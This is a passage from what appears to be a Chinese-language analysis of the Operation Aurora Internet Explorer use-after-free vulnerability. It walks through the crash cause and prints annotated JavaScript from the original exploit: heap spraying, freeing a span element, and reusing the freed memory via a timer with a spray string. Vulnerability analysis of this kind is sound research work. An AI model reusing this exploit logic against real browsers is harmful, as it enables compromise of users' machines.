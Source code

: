 ### 2.7 样本执行流程

现在知道了`ECX`就是`CImgElement`类指针。而程序崩溃原因是因为`ECX`的值被修改成了一个错误的值，也就是说`CImgElement`类指针是错误的。而`CImgElement`类指针是保存在`CTreeNode`类指针所指向的内存空间中，没猜错的话这个`CImgElement`类指针是`CTreeNode`类对象的一个成员属性。类成员属性被改了，那就得分析分析为何被改了，如下：
![](/images/极光行动漏洞分析-漏洞成因分析/349aab5f612eadaa90457ca95936e4b765ddb441943d609265b943d817dc6887.png " ")

`JavaScript`不是很好，上面的分析也是通过网上资料分析的，分析的比较乱，将就着看吧。主要的执行流程就是：

* 通过`onload事件`执行了一个函数
* 进行堆喷射
* 拷贝了一个事件对象，也就是`span`创建出的对象
* 将`span`创建出的对象给释放了
* 设置了一个定时器，去执行了拷贝对象的`srcElement`函数

最重要的两个函数详细分析如下：

```javascript
function WisgEgTNEfaONekEqaMyAUALLMYW(cpznAZhGdtOhTCNSVGLRdYeEfCAPKMeztpQnoKTGKsjrhhkoxCWPz) {

    // 执行堆喷射
    gGyfqFvCYPRmXbnUWzBrulnwZVAJpUifKDiAZEKOqNHrfziGDtUOBqjYCtATBhClJkXjezUcmxBlfEX();
	
    // 拷贝span对象，保存在 lTneQKOeMgwvXaqCPyQAaDDYAkd 变量中，拷贝的内容至少包括了 EVENTPARAM结构体指针
    lTneQKOeMgwvXaqCPyQAaDDYAkd = document.createEventObject(cpznAZhGdtOhTCNSVGLRdYeEfCAPKMeztpQnoKTGKsjrhhkoxCWPz);
	
    // 将span对象给释放掉了，也就是将span对象的CTreeNode类指针指向的内存空间释放了
    document.getElementById("vhQYFCtoDnOzUOuxAflDSzVMIHYhjJojAOCHNZtQdlxSPFUeEthCGdRtiIY").innerHTML = "";
	
    // 设置了一个定时器
    window.setInterval(nayjNuSncnxGnhZDJrEXatSDkpo, 50);
}

// 定时器函数
function nayjNuSncnxGnhZDJrEXatSDkpo() {
	p = "\u0c0f\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d\u0c0d";

    // 循环赋值，目的就是为了覆盖span对象释放后的内存空间
	for (i = 0; i < MeExIMbufEWBILnRFpImyxRTWGErClypbeBtzPrAICchTufmJXuziChiul.length; i++) {
```